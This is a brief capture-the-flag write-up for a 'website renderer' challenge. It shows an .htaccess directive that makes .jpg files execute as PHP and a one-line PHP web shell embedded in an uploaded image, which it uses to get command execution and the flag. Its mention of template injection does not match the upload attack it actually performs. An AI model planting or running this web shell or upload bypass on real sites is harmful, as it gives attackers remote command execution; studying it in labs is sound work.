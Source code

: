 If you prefer the text version : [Write_up_latex](./WU_website_renderer.pdf)

# Reconnaissance

We clearly recognize that there's a potential SSTI (Server-Side template injection) in this challenge. The idea for beginning the exploiting part is to run a basic payload to see what it gives:

![i2](6.jpg)

After uploading an image, we see it in uploads/

![i2](14.jpg)

 # Exploitation

First we'll upload an .htaccess that will allow us to upload jpg files but interpreted as php. The trick here is to inject some php code in the jpg file, we can use burpsuite for it.
The .htaccess file contains `AddType application/x-httpd-php .jpg`.

We can then upload an image with the following code giving us a web shell:
`<?php if(isset($_GET["cmd"])) system($_GET["cmd"]); ?>`

![i2](17.jpg)

Let's gooo our getshell works we can use the command we want, starting with a classic ls and some others commands until we reach the flag by exploring.

![i2](18.jpg)
![i2](19.jpg)
![i2](20.jpg)

Flagged !
